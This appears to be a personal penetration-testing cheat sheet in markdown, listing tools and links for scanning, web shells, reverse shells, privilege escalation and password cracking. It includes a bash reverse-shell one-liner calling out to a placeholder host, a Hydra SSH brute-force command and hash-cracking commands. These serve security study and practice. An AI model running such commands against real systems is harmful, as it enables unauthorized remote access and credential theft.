 # My Security Resources
## Scan
### Services
- nmap
    - Parameters
        - `-A` : Enable OS detection, version detection, script scanning, and traceroute
        - `-p-` : Scan all ports
- enum4linux
    - Parameters
        - `-a` : Do all simple enumeration
## Web
### Scan Directory
- [Dirsearch](https://github.com/maurosoria/dirsearch)
- [Githack-python3](https://github.com/tigert1998/GitHack-py3)
### Shell
#### Web Shell
- [b374k](https://github.com/b374k/b374k)
#### Reverse Shell
- https://reverse-shell.sh/
- [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- `bash -c 'bash -i >& /dev/tcp/my_ip/7877 0>&1'`
## Privilege
### Software
- [GTFOBins](https://gtfobins.github.io/)
    - Linux privileges escalation 
- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
    - Scan the system to find which can be use for privileges escalation
- [Pspy](https://github.com/DominicBreuker/pspy)
    - Monitor the process
### Command
- `sudo -l`
## Burp Force
### Software
- Hydra
    - Crack online services password
        - SMB、SSH......
    - Usage
        - `hydra -l {username} -P {path_to_wordlist} ssh://{ip_address}`
- John the ripper
    - Crack hash like /etc/shadow
    - Support tools
        - [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)
        - gpg2john
    - Usage
        - `john {file} --wordlist={wordlist}`
- Hashcat
    - Crack hash 
### Dictionary
- rockyou.txt
- https://github.com/danielmiessler/SecLists